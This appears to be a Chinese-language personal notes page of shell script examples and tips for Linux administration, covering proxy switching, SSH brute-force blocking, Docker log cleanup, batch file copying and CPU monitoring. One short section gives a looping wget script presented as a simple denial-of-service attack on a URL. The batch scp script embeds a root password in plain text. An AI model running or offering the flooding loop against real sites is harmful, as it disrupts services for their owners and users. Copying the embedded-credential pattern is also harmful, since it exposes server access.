 - [shell脚本案例](#shell脚本案例)
  - [切换代理状态](#切换代理状态)
  - [脚本合集](#脚本合集)
  - [防止暴力破解ssh密码](#防止暴力破解ssh密码)
  - [虚拟机创建初始化配置脚本](#虚拟机创建初始化配置脚本)
  - [docker日志检查 日志清理](#docker日志检查-日志清理)
  - [远程批量替换文件脚本](#远程批量替换文件脚本)
  - [wget DOS攻击简单脚本](#wget-dos攻击简单脚本)
  - [telnet可以测试端口是否开放](#telnet可以测试端口是否开放)
  - [查看CPU使用率高的线程](#查看cpu使用率高的线程)
- [shell 技巧](#shell-技巧)
  - [shell语法坑](#shell语法坑)
  - [变量扩展语法](#变量扩展语法)
  - [文件描述符 重定向](#文件描述符-重定向)
  - [正则表达式匹配](#正则表达式匹配)
  - [shell特殊字符处理](#shell特殊字符处理)

# shell脚本案例

## 切换代理状态

```shell
function toggle_proxy_internal() {
    if [ -z "$1" ]; then
        unset http_proxy
        unset https_proxy
        echo "Proxy settings cleared."
    else
        export http_proxy="$1"
        export https_proxy="$1"
        echo "Proxy set to $1."
    fi
}

# 检查 http_proxy 和 https_proxy 是否已设置
function toggle_proxy() {
    if [ -z "$http_proxy" ] && [ -z "$https_proxy" ]; then
        toggle_proxy_internal "http://192.168.124.7:7890"
    else
        toggle_proxy_internal
    fi
}
```

## 脚本合集 

https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&__biz=MzU5NDg5MzM5NQ==&scene=1&album_id=1688640897556512775&count=3#wechat_redirect

## 防止暴力破解ssh密码
```
#!/bin/sh
#登录失败次数大于10的ip
IP=$(awk '/Failed/{print $(NF-3)}' /var/log/secure | sort |uniq -c |awk '{if($1>10) print $2}')
hostdeny=/etc/hosts.deny
for i in $IP
do
#如果ip不存在，则写入deny文件
if [ ! $(grep $i $hostdeny) ];then
echo "sshd:$i" >> $hostdeny
fi
done
```
## 虚拟机创建初始化配置脚本
```shell
sed -i '/IPADDR=192.168.3/c\IPADDR=192.168.3.xxx' /etc/sysconfig/network-scripts/ifcfg-eth0
systemctl restart network 
ip addr
```


## docker日志检查 日志清理
添加cron可以定期清理
```shell
#!/bin/sh
echo "======== docker containers logs file size ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
             ls -lh $log   
        done 
```
```shell
#!/bin/sh 
echo "======== start clean docker containers logs ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
                echo "clean logs : $log"  
                cat /dev/null > $log  
        done  
echo "======== end clean docker containers logs ========"  
```
## 远程批量替换文件脚本

```shell
#!/bin/bash
#scp自动替换文件
IPS="192.168.3.101 192.168.3.102 192.168.3.103 192.168.3.104 192.168.3.105 192.168.3.107 192.168.3.108 192.168.3.110"
for IP in $IPS
do
expect <<- EOF
     spawn scp /www/wwwroot/dev/app/home/view/index/index.html root@$IP:/www/wwwroot/dev/app/home/view/index/index.html
     expect {
		"yes/no" {send "yes\n"; exp_continue}
		"password:" {send "CDLSdm\n"}
	}
     expect eof
EOF
echo "$IP already done"
done
```

## wget DOS攻击简单脚本

```shell
URL="http://www...com"
while true; do
    wget -q -nc $URL -b &>/dev/null
done
```

## telnet可以测试端口是否开放

```shell
telnet 192.168.3.254 3306
```
原理我猜是建立TCP连接  

## 查看CPU使用率高的线程

```shell
#!/bin/bash
LANG=C
PATH=/sbin:/usr/sbin:/bin:/usr/bin
interval=1
length=86400
for i in $(seq 1 $(expr ${length} / ${interval}));do
date
LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | grep -v CPU | sort -n -r | head -20
date
LANG=C cat /proc/loadavg
{ LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | sed -e 's/^ *//' | tr -s ' ' | grep -v CPU | sort -n -r | cut -d ' ' -f 1 | xargs -I{} echo -n "{} + " && echo ' 0'; } | bc -l
sleep ${interval}
done
```

# shell 技巧

## shell语法坑

shell中变量的值不是是多行字符串，如果是，就会被转换成空格间隔的字符串

## 变量扩展语法

`readonly`说明MARIADB_USERNAME只能被赋值一次。`${MARIADB_USERNAME:-iam}`使用了Bash shell的**变量扩展语法**，其语法格式为`${待测变量:-默认值}`，表示：如果待测变量不存在或其值为空，则返回默认值，否则返回待测变量的值。

来源：goiam课程
https://github.com/marmotedu/iam/blob/book/docs/guide/zh-CN/installation/05_%E5%AE%89%E8%A3%85%E5%92%8C%E9%85%8D%E7%BD%AE%E6%95%B0%E6%8D%AE%E5%BA%93.md

## 文件描述符 重定向

设置永久重定向

Exp:
```shell
exec 3> filename
exec 2>> filename
exec 0< filename
exec 3>&1
```
## 正则表达式匹配

https://blog.csdn.net/dc666/article/details/46007507

```shell
[[ `hostname` =~ -([0-9]+)$ ]] || exit 1          
ordinal=${BASH_REMATCH[1]}
```

## shell特殊字符处理

[source](https://mp.weixin.qq.com/s?__biz=MzU5NDg5MzM5NQ==&mid=2247499943&idx=1&sn=4e1a589411368f77e932228057b48ba9&chksm=fe78cf9bc90f468ddb67f5ae794d3e360c729a86e0c113471111a88974f09e1d879d04670460&mpshare=1&scene=1&srcid=11143Xwns6V0PZas5gSKrWUt&sharer_sharetime=1668396497114&sharer_shareid=1817186607f682c2c8dc4a6ca1d644dc&version=4.1.0.6007&platform=win#rd)
